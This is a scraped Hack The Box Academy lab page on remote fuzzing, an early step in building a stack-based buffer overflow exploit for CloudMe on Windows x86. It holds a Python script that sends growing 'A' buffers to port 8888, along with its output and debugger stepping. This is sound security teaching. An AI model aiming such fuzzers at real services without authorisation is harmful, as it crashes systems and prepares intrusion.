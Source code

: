 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/89/section/950
// Platform Version: V1
// Module ID: 89
// Module Name: Stack-Based Buffer Overflows on Windows x86
// Module Difficulty: Medium
// Section ID: 950
// Section Title: Remote Fuzzing
// Page Title: Hack The Box - Academy
// Page Number: 08
-->

# Remote Fuzzing

**Module Name:** Stack-Based Buffer Overflows on Windows x86 **Page Number:** 08

#### 

#### STACK-BASED BUFFER OVERFLOWS ON WINDOWS X86

# Remote Fuzzing

## Debugging A Remote Program

``` powershell-session
PS C:\htb> netstat -a

...SNIP...
TCP    0.0.0.0:8888           0.0.0.0:0              LISTENING
[CloudMe.exe]
```

``` powershell-session
PS C:\Users\htb-student\Desktop> .\nc.exe 127.0.0.1 8888
?
PS C:\Users\htb-student\Desktop> .\nc.exe 127.0.0.1 8888
help
```

## Fuzzing Remote Port

``` python
import socket
from struct import pack

IP = "127.0.0.1"
port = 8888

def fuzz():
    for i in range(0,10000,500):
        buffer = b"A"*i
        print("Fuzzing %s bytes" % i)
```

``` python
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((IP, port))
```

``` python
def fuzz():
    try:
        for i in range(0,10000,500):
            buffer = b"A"*i
            print("Fuzzing %s bytes" % i)
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((IP, port))
            s.send(buffer)
            s.close()
    except:
        print("Could not establish a connection")

fuzz()
```

``` cmd-session
Fuzzing 0 bytes
Fuzzing 500 bytes
...SNIP...
Fuzzing 9000 bytes
Fuzzing 9500 bytes
```

![https://academy.hackthebox.com/storage/modules/89/win32bof_remote_fuzz.jpg](https://academy.hackthebox.com/storage/modules/89/win32bof_remote_fuzz.jpg)

## Gradual Fuzzing

``` cmd-session
Fuzzing 0 bytes
> c:\users\htb-student\desktop\win32bof_exploit_remote.py(13)fuzz()
-> s.send(buffer)
(Pdb) c
Fuzzing 500 bytes
> c:\users\htb-student\desktop\win32bof_exploit_remote.py(12)fuzz()
-> breakpoint()
(Pdb) c
Fuzzing 1000 bytes
> c:\users\htb-student\desktop\win32bof_exploit_remote.py(13)fuzz()
-> s.send(buffer)
(Pdb) c
Fuzzing 1500 bytes
> c:\users\htb-student\desktop\win32bof_exploit_remote.py(12)fuzz()
-> breakpoint()
(Pdb) c
...
```

# 

# 

#### Questions

####